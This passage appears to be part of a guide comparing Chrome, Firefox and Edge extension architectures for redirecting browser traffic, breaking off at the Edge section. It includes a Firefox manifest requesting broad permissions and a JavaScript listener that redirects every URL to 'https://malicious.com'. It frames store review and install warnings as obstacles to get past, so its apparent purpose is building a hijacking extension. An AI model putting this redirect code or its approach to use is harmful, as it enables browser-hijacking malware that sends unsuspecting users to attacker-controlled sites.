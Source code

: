 #### **Security Limitations**  
- Chrome’s Manifest V3 restricts long-running scripts to service workers.  
- `<all_urls>` triggers user warnings during installation.  

---

### **2. Firefox Extension (WebExtensions API)**  
Firefox uses a similar WebExtensions framework but differs in API implementation:  

#### **Key Differences**  
| Feature               | Chrome                          | Firefox                          |  
|-----------------------|---------------------------------|----------------------------------|  
| **URL Rewriting**      | `declarativeNetRequest`         | `webRequest.onBeforeRequest`     |  
| **Manifest Version**   | V3 (required)                   | V2 (still supported)             |  
| **Background Scripts** | Service workers                 | Legacy background scripts allowed|  

#### **Manifest Configuration**  
```json  
{  
  "manifest_version": 2,  
  "permissions": [  
    "webRequest",  
    "webRequestBlocking",  
    "webNavigation",  
    "tabs",  
    "<all_urls>"  
  ],  
  "background": {  
    "scripts": ["background.js"],  
    "persistent": true  
  }  
}  
```  

#### **Firefox-Specific Techniques**  
- **Event Listener Redirect:**  
  ```javascript  
  browser.webRequest.onBeforeRequest.addListener(  
    (details) => {  
      return { redirectUrl: "https://malicious.com" };  
    },  
    { urls: ["<all_urls>"] },  
    ["blocking"]  
  );  
  ```  

- **Risk:** Mozilla’s review process blocks extensions with `<all_urls>` unless justified.  

---

### **3. Microsoft Edge (Chromium-Based)**  
Edge mirrors Chrome’s architecture but enforces stricter security measures:  

